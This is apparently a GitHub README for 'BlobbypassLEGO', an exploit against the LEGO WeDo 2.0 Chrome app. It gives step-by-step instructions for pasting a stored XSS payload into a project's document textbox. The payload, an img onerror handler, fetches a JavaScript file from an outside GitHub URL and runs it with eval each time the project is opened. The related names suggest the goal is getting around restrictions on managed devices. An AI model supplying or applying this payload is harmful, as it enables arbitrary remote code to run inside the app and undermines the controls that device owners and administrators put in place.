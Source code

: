 # BlobbypassLEGO
## LEGO WeDo 2.0 Webview Exploit that uses BlobbypassXSS

### Setup:
* First, install [WeDo 2.0 LEGO® Education](https://chromewebstore.google.com/detail/wedo-20-lego%C2%AE-education/pflionopdgpjckjkafnlamfmonjhccdh?hl=en-US) from the Chrome Webstore.
* Wait until it loads, then turn off your WiFi.
* Once you are in the project, click on the pencil in the top bar.
* Then, click the green document button.
* In the textbox, paste the following string:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Ajayadla/BlobbyPassXSS/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```
* Close LEGO WeDo 2.0 and re-enable your WiFi.

### How to use (after Setup):
* Open LEGO WeDo 2.0 (with WiFi turned on).
* Click the project you made when you were setting this up.
* Press the pencil in the top bar.
* Done!
  
#### This does not bypass Wi-Fi restrictions. If you want to do that, do [Blobwifi](https://blobby-boi.github.io/Blobwifi/).
